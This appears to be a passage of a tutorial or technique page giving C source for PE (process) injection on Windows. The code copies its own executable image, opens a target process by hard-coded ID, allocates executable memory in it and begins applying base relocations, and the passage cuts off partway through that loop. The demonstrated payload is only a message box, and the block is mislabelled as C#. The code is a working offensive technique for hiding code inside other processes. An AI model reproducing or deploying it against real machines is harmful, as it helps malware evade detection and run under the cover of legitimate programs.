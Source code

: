 ![Process Injection](/w/images/process_injection.png)

#### Code
```C#
#include <stdio.h>
#include <stdio.h>
#include <Windows.h>

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint() {
	CHAR moduleName[128] = "";
	GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
	MessageBoxA(NULL, moduleName, "Obligatory PE Injection", NULL);
	return 0;
}

int main()
{
	// Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

	// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

	// Open the target process - this is process we will be injecting this PE into
	HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 9304);
	
	// Allote a new memory block in the target process. This is where we will be injecting this PE
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	// Relocate localImage, to ensure that it will have correct addresses once its in the target process
	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;

	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
```